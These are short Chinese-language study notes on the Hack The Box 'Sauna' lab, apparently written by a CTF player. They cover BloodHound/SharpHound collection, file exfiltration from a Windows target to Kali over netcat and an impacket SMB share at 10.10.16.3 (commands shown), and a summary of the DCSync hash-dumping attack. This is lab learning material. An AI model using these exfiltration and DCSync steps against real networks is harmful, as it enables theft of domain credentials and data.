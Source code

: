 ```yaml
---
description: SharpHound, BloodHound, Active Directory, ASREPRoasting,DCSync Attack
---
```


# Hack the box - Sauna

{% embed url="https://0xdf.gitlab.io/2020/07/18/htb-sauna.html#shell-as-fsmith" %}

注意事项

在使用sharphound收集AD信息时，不要使用kali自带的sharphound，需要从github上下载最新的bloodhound.exe.

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

## Data Exfiltration，数据渗漏

当需要从windows传送文件到kali上时，可以使用netcat。大致思路是在kali上下载好nc.exe，使用python3 -m http.server 这个指令启动一个临时的http服务器。在Windows上将nc.exe下载并使用nc.exe 和kali自带的netcat传送文件。

在使用python impacket中的smb模组时，用impacket-smbserver指令，而不是smbserver.py。当我在使用smbserver.py时，我的kali出现了鼠标光标变成十字状的情况。当使用impacket-smbserver时，需要加上-smb2support，windows net.exe不支持smb1。

```
# Kali Command:
sudo impacket-smbserver -smb2support smb samba_share
# smb 是 smb share 的名字，samba_share是本地文件夹的名字。

# Windows Command:
net use \\10.10.16.3\smb
cd \\10.10.16.3\smb # 将当前的文件夹转到smb
# 注意使用smb而不是samba_share作为Windows上smb share的名字
```

## 数据处理

在将SharpHound.exe产生的zip文件传到kali后，用Upload Data而不是Import Graph来导入文件。

## DCSync 攻击

{% embed url="https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction" %}
关于DCSync 攻击不错的文章
{% endembed %}

总结一下文章的内容就是一些拥有

* Replicating Directory Changes
* Replicating Directory Changes All

权限的账户可以通过request domain replication获得用户密码的哈希函数。
